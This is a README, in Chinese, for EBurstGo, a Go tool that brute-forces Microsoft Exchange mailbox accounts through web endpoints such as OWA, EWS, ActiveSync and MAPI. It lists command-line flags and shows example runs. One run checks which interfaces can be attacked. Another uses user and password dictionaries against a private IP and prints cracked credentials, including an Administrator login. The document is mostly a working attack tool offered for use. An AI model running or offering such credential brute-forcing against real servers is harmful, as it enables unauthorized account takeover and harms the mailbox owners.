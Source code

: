 # EBurstGo

利用 Exchange 服务器 Web 接口爆破邮箱账户

参考 [grayddq/EBurst](https://github.com/grayddq/EBurst) 项目使用 Go 语言重构

支持接口

```shell
/autodiscover
/owa/auth.owa # OWA & ECP
/ews
/mapi
/oab
/rpc
/Microsoft-Server-ActiveSync
/powershell
```

## Usage

usage

```shell
Usage of ./EBurstGo:
  -check
    	检测目标 Exchange 可用接口
  -debug
    	显示 Debug 信息
  -delay int
    	请求延时
  -domain string
    	AD 域名
  -mode string
    	指定 Exchange Web 接口
  -pass string
    	密码字典
  -thread int
    	协程数量 (default 2)
  -url string
    	Exchange 服务器地址
  -user string
    	用户名字典
  -verbose
    	显示详细信息
```

check

```shell
$ ./EBurstGo -url https://192.168.30.11 -check
[*] 检测目标 Exchange 可用接口
[+] 存在 owa 接口 (/owa/auth.owa), 可以爆破
[+] 存在 powershell 接口 (/powershell), 可以爆破
[+] 存在 ecp 接口 (/owa/auth.owa), 可以爆破
[+] 存在 autodiscover 接口 (/autodiscover), 可以爆破
[+] 存在 mapi 接口 (/mapi), 可以爆破
[+] 存在 activesync 接口 (/Microsoft-Server-ActiveSync), 可以爆破
[+] 存在 oab 接口 (/oab), 可以爆破
[+] 存在 ews 接口 (/ews), 可以爆破
[+] 存在 rpc 接口 (/rpc), 可以爆破
```

brute

```shell
$ ./EBurstGo -url https://192.168.30.11 -domain hack-my.com -user users.txt -pass pass.txt -mode ews
[*] 使用 ews 接口爆破: https://192.168.30.11
[+] 成功: Administrator:abcd1234!@#$
[+] 成功: Alice:Alice123!
[+] 成功: Bob:Bob123!
[+] 成功: Marry:Marry123!
[*] 耗时: 4.40084275s
```

已知 bug:
- 在使用 ActiveSync 接口进行爆破时, 如果凭据正确, 服务器会在大约 20s 之后响应, 期间会阻塞当前协程 (不过好像是 ActiveSync 本身的特性)
- `/oab` 接口存在问题, 待解决
- `/powershell` 接口 (Kerberos 认证) 待支持
